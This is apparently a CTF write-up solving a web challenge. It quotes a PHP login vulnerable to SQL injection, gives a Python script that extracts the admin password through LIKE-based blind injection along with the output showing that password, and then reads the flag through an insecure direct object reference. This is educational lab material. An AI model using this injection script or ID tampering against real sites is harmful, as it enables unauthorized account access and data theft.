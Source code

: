 ```yaml
---
title: "OSU League 2020/2021 - web 2 Writeup"
date: 2020-11-21
draft: false
description: ""
tags: ["ctf"]
---
```

## Writeup
For this challenge, we are given a website.  Opening the link takes us to this page:

{{< figure src="/img/webpage.png" >}}

Looks like we are presented with a login. We are also given the source code to this webpage, so maybe we can do something with that.

Looking through the source code, we see a comment mentioning a vulnerable piece of code:

```php
    // XXX: this is vuln to SQL injection!
    $query_str = "SELECT id, username, password FROM users WHERE username='$username';";
    echo '* <b>Query:</b> ' . htmlentities($query_str) . '<br>'
```

This piece of code is vulnerable to something known as a SQL injection.  With a specially crafted username, we can escape the `$username` and add on to the query with our own SQL code.  But what can we add onto the query in order login? 

The answer is the `LIKE` operator.  According to w3schools:
> The LIKE operator is used in a WHERE clause to search for a specified pattern in a column.
>
> There are two wildcards often used in conjunction with the LIKE operator:
>
> % - The percent sign represents zero, one, or multiple characters
> _ - The underscore represents a single character

So if we can make `username='$username'` evaluate to true, and then tack on a `and password like 'x%'`, and just iterate all possible characters for `x`, we can get the first character of the password for said username.  We can then repeat that process for every character until we get the full password.

After some trial and error, we can figure out that the username we want to steal from is `admin`.  and so the query we want to inject is `admin' and password like 'x%`

We can write a simple python script to automate this process:

```python
import requests
import string

url_val = "http://ctf-league.osusec.org:8080/login.php"
obj = {'password':'', 'username':''}
failed = "password is incorrect"
pwd = ''

while True:
    for i in string.printable:
        obj['username'] = "admin' and password like '" + pwd + i + "%"

        x = requests.post(url = url_val, data = obj, timeout=2.5)

        if(x.text.find(failed) > 0):
            pwd = pwd + i
            print(pwd)
            break

```

Running this script we get the password for admin:
```
$ python3 pwn.py
k
kl
kl6
kl62
kl62j
kl62jd
kl62jdi
kl62jdic
kl62jdicu
kl62jdicu3
kl62jdicu31
kl62jdicu31a
kl62jdicu31ad
kl62jdicu31ad%
```
The password is `kl62jdicu31ad`

After logging in, we are greeted with another page.  This one seems to be some sort of note maker:

{{< figure src="/img/notes.png" >}}

We are told to look into "Insecure direct object references", which is a type of access control vulnerability that happens in applications that use user supplied input directly.  

Opening a note, we can see how we could abuse that:

{{< figure src="/img/note_6.png" >}}

What if we directly modified the url to point us to a note that would otherwise be inaccesible?  Let's try setting it to `1`:

{{< figure src="/img/note_1.png" >}}

Next note contains the flag! Changing it to `2` and we get our flag:

{{< figure src="/img/flag.png" >}}

```
flag{r3m3mber_t0-g00gle_wh3n_f@cing_a_d1fficult-challenge!}
```
